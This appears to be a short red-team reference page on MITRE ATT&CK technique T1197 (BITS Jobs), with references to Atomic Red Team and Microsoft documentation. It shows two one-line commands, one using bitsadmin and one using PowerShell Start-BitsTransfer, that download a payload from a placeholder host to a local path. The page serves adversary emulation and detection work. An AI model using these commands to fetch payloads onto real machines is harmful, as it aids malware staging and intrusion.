 # BITS Jobs

---
* **ID**: T1197
* **Source**: <https://attack.mitre.org/techniques/T1197/>
---

# Details

## BITSAdmin
Download a payload leveraging BITSAdmin:
```
bitsadmin.exe /transfer txt /download /priority normal http://example.com/example.exe %ALLUSERSPROFILE%\example.exe
```

## PowerShell
Download a payload leveraging PowerShell:
```
powershell
Start-BitsTransfer -Priority foreground -Source http://example.com/example.exe -Destination C:\ClientDir\example.exe
```

# References

* <https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1197/T1197.md>
* <https://docs.microsoft.com/en-us/windows/win32/bits/bitsadmin-tool>
* <https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal>
* <http://avfisher.win/archives/100>
